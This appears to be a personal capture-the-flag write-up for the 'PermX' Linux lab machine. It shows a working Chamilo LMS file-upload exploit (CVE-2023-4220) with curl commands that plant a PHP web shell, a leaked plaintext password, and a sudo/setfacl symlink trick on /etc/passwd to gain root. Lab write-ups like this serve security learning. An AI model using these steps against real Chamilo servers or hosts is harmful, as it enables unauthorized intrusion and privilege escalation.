 ## PermX machine : Linux 

- [+] : Target IP 
   >>	10.10.11.23
   
## Recon 

- [+] : Port 22,80 open 
   >>	Port 80 has lms subdomain .
   >>	chamilo 1.11(/Documentation)
   
## Foothold  

- [+] : CVE -> https://starlabs.sg/advisories/23/23-4220/

		```bash
		echo '<?php system("id"); ?>' > rce.php
		curl -F 'bigUploadFile=@rce.php' 'http://<chamilo>/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
		The file has successfully been uploaded.
		curl 'http://<chamilo>/main/inc/lib/javascript/bigupload/files/rce.php'
		uid=33(www-data) gid=33(www-data) groups=33(www-data)
		```


## www-data 

- [+] : Linpeas.sh shows password of mtz 
   >>	mtz:03F6lY3uXAP2bkW8

## Mtz 

- [+] : sudo -l ->  /opt/acl.sh
  >>	which is a script that uses setfacl but only in /home/mtz/*
  >>	create semilink ls -s /etc/passwd link1
  >>	sudo /opt/acl.sh mtz rw link1 
  >>	nano link1 and delete root password 
  >> 	su root .
  
### Personal notes for privesc 

- [-] : Chattr 
  >>	Chattr is a way for linux to make a file immtuable 
  >>	immutable = never change (thats why we cant delete flags for instance)
  >>	root.txt nor /root can be linked to something since a byte will increment for the links section in root.txt
